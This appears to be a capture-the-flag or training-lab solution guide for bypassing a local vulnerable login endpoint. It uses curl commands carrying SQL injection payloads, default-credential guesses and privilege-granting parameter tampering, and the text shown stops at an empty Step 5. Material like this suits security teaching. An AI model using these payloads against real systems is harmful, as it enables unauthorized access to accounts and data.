 ### Lab Solution Steps

#### Step 1: Analyze Login Mechanism
**Objective:** Understand how authentication works

```bash
curl -X POST "http://localhost:5000/api/vuln/auth" -d "username=admin&password=password"
```

**Expected Response:** Authentication failure or success message
**Explanation:** Test normal login to understand the authentication flow and response patterns.

#### Step 2: Test SQL Injection in Login
**Objective:** Try SQL injection in authentication fields

```bash
curl -X POST "http://localhost:5000/api/vuln/auth" -d "username=admin' OR '1'='1&password=anything"
```

**Alternative payloads:**
```bash
curl -X POST "http://localhost:5000/api/vuln/auth" -d "username=admin' OR '1'='1'--&password=anything"
curl -X POST "http://localhost:5000/api/vuln/auth" -d "username=admin' OR '1'='1'/*&password=anything"
curl -X POST "http://localhost:5000/api/vuln/auth" -d "username=' OR '1'='1&password=' OR '1'='1"
```

**Explanation:** Bypass authentication using SQL injection to make the login query always return true.

#### Step 3: Default Credentials
**Objective:** Test common default username/password combinations

```bash
curl -X POST "http://localhost:5000/api/vuln/auth" -d "username=admin&password=admin"
curl -X POST "http://localhost:5000/api/vuln/auth" -d "username=admin&password=password"
curl -X POST "http://localhost:5000/api/vuln/auth" -d "username=admin&password=123456"
curl -X POST "http://localhost:5000/api/vuln/auth" -d "username=root&password=root"
```

**Explanation:** Try common default credentials that administrators may not have changed.

#### Step 4: Parameter Manipulation
**Objective:** Manipulate hidden form fields or parameters

```bash
curl -X POST "http://localhost:5000/api/vuln/auth" -d "username=user&password=wrong&admin=true"
curl -X POST "http://localhost:5000/api/vuln/auth" -d "username=user&password=wrong&role=admin"
curl -X POST "http://localhost:5000/api/vuln/auth" -d "username=user&password=wrong&authenticated=true"
```

**Explanation:** Add additional parameters that might bypass authentication checks or grant elevated privileges.

#### Step 5: Session Token Analysis
**Objective:** Analyze session tokens for predictable patterns
